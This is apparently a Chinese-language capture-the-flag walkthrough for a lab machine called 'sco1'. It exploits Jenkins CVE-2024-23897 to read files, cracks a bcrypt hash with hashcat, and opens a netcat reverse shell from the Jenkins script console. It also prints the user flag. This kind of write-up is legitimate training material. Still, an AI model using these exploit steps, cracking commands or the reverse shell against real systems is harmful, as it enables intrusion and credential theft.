








# sco1

开放了80和8080web端口
8080端口为jenkins

扫描一下80端口目录,搜寻更多信息没什么东西
同时进行的详细扫描有了结果扫除了另一个端口8000,8089,8191


尝试找一下jekens的历史漏洞

CVE-2024-23897(https://github.com/xaitax/CVE-2024-23897)
```
Jenkins 2.441 及更早版本、LTS 2.426.2 及更早版本不会禁用其 CLI 命令解析器的功能，该功能将参数中的“@”字符后跟文件路径替换为文件内容，从而允许未经身份验证的攻击者读取 Jenkins 控制器文件系统上的任意文件。
```
尝试读取一下重要的配置文件,拿到密码(参考文章:https://blog.csdn.net/qq_34594929/article/details/136446671)
利用脚本:https://github.com/verylazytech/CVE-2024-23897/blob/main/CVE-2024-23897.py

成功读取到文件,找到密码hash
/var/jenkins_home/users/test_3253830066040356536/config.xml

拿去碰撞rockyou字典(注意这里要对$进行转义或保存至文件中)
$2a$10$vKk.FDrPqNyv01Nx2QM6Gee0aq.7HUaCZIIGfODqdShRSQNmVSZCm
```
hashcat -m 3200 -a 0 \$2a\$10\$vKk.FDrPqNyv01Nx2QM6Gee0aq.7HUaCZIIGfODqdShRSQNmVSZCm /usr/share/wordlists/rockyou.txt
```
破解出的密码为test1234
getshell
```
def cmd = "busybox nc 192.168.56.108 5555 -e /bin/bash"
println cmd.execute().text
```

/home/splunk目录下找到user.txt
`flag{69cd83075bb1066518625e09aac400711cd31ce7}`
sudo -l查看可用的特权命令

执行后提示要账户密码

目录下还有pspy32,是一个进程监控工具


